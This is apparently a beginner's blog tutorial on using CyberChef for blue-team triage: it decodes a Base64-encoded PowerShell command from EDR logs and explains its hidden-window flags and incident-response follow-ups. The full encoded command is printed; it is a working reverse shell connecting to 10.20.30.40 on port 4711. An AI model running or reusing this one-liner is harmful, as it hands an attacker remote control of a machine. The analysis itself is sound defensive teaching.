

Below you'll find a quick introduction into CyberChef, it's UI, and a example. CyberChef can be used to: Encode, Decode, Format data, Parse data, Encrypt, Decrypt, Compress data, Extract data, perform arithmetic functions against data, defang data, and many other functions.

This article is mainly dedicated for folks, that are new into the subject "CyberChef". For experts, feel free to skip this article and directly jump into more advanced topics [here](https://benjitrapp.github.io/defenses/2023-06-18-cyberchef-recipes-cheatsheet/).

## Short intro into the UI

After spinning up the [BenjiTrapp/boxed-cyberchef](https://github.com/BenjiTrapp/boxed-cyberchef) or [online version](https://gchq.github.io/CyberChef/) it's time to get get used to the UI of CyberChef.

<p align="center">

</p>

Based on the picture from above, all sections can be described as:

1. **Operations** – These are the single actions that can be performed on the data provided over the Input.

2. **Recipe** – Instructions for telling CyberChef what to do with the data. A Recipe usually consists of multiple Operations

3. **Input Section** – The provided data that you’re manipulating.

4. **Output section** – The result of the Input based on the applied Recipe functions.

5. **Bake** - The magic button to run the Recipe and derive some output.

## Let's cook something with CyberChef

As a blue teamer you receive an alert from your EDR tool, that detected the execution of a suspicious PowerShell script. To gather some IOCs, it's always a good idea to analyze the script.

By reviewing the alert, you see the following command from the PowerShell logs:

```bash
powershell.exe -NoP -sta -NonI -W Hidden -Enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMgAwAC4AMwAwAC4ANAAwACIALAA0ADcAMQAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

Let's dissect what we're seeing step by step:

* **Powershell.exe** tells Windows to open and use the PowerShell language to interpret the command.

* **-NoP** tells the Powershell process to not use a Profile. Profiles are  used in Powershell to set environment variables such as window color, text font/color, and other options for customization.

* **-sta** tells PowerShell to use “Single Thread Apartment” or in other words: dedicate only one memory thread for this process. This parameter helps to make Powershell multi-threaded.

* **-NonI** tells Powershell to use a non-interactive window. Typically this is used to prevent the user from closing the process.

* **-W** Hidden, this argument tells PowerShell to use a hidden window. Again this is typically used ny the adversary to hide malicious actions from the user.

* **-Enc**: This part looks like junk, but is actually Base64 encoded commands.

The "junk" part is actually a good reason where CyberChef can help out to see what the data is all about. This simple thing could also be done by using the bash, but also forms a great example for using CyberChef.

Let's paste the encoded stuff into the Input section and search for a fitting operation.

In order to decode the command, we’ll need to tell CyberChef to decode the Base64 data. Type “base” in the search box for Operations on the left, and drag “From Base64” into the Recipe section:

<p align="center">

</p>

The Output looks now a little better, but is still not human-readable. We can recognize fragments of words, which is heavily scrambles by red "nul" fragments resp. null bytes.

Copy the text now from the Output section and paste it into the Input section again.

To remove the null bytes we must search for a fitting Operations to enhance our recipe. With a quick search for "null byte" you should find a fitting entry.

Time for round two:

<p align="center">

</p>

Finally we got a result that is human readable:

## Summary

To come back to our initial questions related to IOCs we can now dig deeper and summarize the following results:

1. The PowerShell drops a reverse Shell, so this script can be seen as malicious.
2. The target URL 10.20.30.40 on Port 4711 belongs to our adversary.
3. Now you should check at least the following things:
   1. Stop the attack and contain the machine to kick the attacker out of your network.
   2. Did the EDR/AV block the attack?
   3. Are there other outbound connection to the IP? Maybe from other machines?
   4. How was the attacker able to implant the script? Which hole did the attacker use?

If you want to learn more about the payload itself and dig deeper into the property of the Red Team, check this [Gist File](https://gist.github.com/BenjiTrapp/c7df0f9307ff236f863b2b271ae9d64d) out.
